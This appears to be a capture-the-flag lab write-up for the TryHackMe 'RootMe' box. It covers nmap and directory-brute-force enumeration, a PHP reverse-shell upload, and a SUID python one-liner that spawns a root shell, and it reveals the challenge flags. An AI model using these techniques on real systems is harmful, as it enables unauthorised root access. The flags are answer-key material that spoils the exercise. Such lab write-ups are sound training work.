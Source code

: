 # Box Name
## RootMe
---

## Overview

### A ctf for beginners, can you root me?
---
* [[#Enumeration]] 
	* nap, ferox

* [[#Initial Foothold]]
	* upload a php [[revshell]]
	
* [[#Privilege Escalation]]
	* search for suid binaries found python[[gtfobins]]

---
## Enumeration
---
## nmap
```

Nmap scan report for 10.10.235.172
Host is up, received syn-ack (0.14s latency).
Scanned at 2022-03-07 11:29:52 UTC for 11s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## ferox

```
ferox -u http://10.10.16.137 -w ~/SecLists/Discovery/Web-Content/raft-small-words.txt -t 100 -x html,txt,php -C 403 -o logs/ferox.md

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 1.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.88.236
 🚀  Threads               │ 100
 📖  Wordlist              │ /home/scott/SecLists/Discovery/Web-Content/raft-small-words.txt
 🆗  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 🗑  Status Code Filters   │ [403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/1.10.3
 💾  Output File           │ logs/ferox.md
 💲  Extensions            │ [html, txt, php]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 ⏯   Press [ENTER] to pause|resume your scan
──────────────────────────────────────────────────
301        9l       28w      312c http://10.10.235.172/css
200       25l       44w      616c http://10.10.235.172/
301        9l       28w      311c http://10.10.235.172/js
301        9l       28w      314c http://10.10.235.172/panel
200       17l       67w     1126c http://10.10.235.172/css/
200       25l       44w      616c http://10.10.235.172/index.php
301        9l       28w      316c http://10.10.235.172/uploads
```

![](app://local/%2Fhome%2Fscott%2FDesktop%2FTHM%2Fimages%2FPasted%20image%2020220307114437.png?1646653477717)



---
## Initial Foothold
---

- ### navagate to http://10.10.16.137/uploads/shell.phtml to initiate revshell

## onthe box
- ### find suid files
```bash
www-data@rootme:/$ find / -perm -4000 2>/dev/null

/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo


```
---
## Privilege Escalation
----
- ## python set to suid as root

```python
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

- ### get root shell

```bash
www-data@rootme:/$ python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.4# 


```

# cat user.txt
```bash

bash-4.4# find / -iname user.txt 2>/dev/null
/var/www/user.txt
bash-4.4# cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
bash-4.4# 
```

# cat root.txt
```bash
bash-4.4# cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
bash-4.4#

```
